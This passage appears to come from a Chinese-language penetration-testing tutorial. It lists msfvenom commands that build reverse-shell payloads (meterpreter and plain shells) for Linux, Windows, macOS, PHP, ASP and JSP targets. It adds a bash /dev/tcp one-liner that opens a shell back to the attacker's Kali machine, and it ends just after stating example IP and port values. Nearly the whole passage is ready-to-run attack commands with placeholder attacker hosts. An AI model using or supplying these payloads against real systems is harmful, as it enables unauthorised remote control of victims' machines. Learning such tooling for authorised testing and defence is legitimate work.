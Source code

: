 # 使用 msfvenom 生成 Shell 有效载荷

现在我们来讨论如何在不同平台上使用`msfvenom`生成 Shell 有效载荷：

+   **Linux**:

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[Your Kali IP Address] LPORT=[Your Listening Port on Kali] -f elf > linux_shell.elf
```

+   **Windows**:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Your Kali IP Address] LPORT=[Your Listening Port on Kali] -f exe > windows_shell.exe
```

+   **macOS**:

```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=[Your Kali IP Address] LPORT=[Your Listening Port on Kali] -f macho > mac_shell.macho
```

+   **PHP**:

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=[Your Kali IP Address] LPORT=[Your Listening Port on Kali] -f raw > php_shell.php
```

如果你使用`php`/`reverse_php`，那么打开`msfvenom`生成的输出文件，使用编辑器在脚本的开始加上`<?php`，并在末尾加上`?>`。

+   **ASP**:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Your Kali IP Address] LPORT=[Your Listening Port on Kali] -f asp > asp_shell.asp
```

+   **JSP**:

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[Your Kali IP Address] LPORT=[Your Listening Port on Kali] -f raw > jsp_shell.jsp
```

# 自定义 Shell

如果你不想使用`msfvenom`，你可以创建你自己的自定义 Shell。这里有一些示例：

+   **Bash**

```
bash -i >& /dev/tcp/[Your Kali IP Address]/[Your Listening Port on Kali] 0>&1
```

在以下示例中，我假设我的 Kali IP 是`10.1.1.100`，监听端口是`4444`。
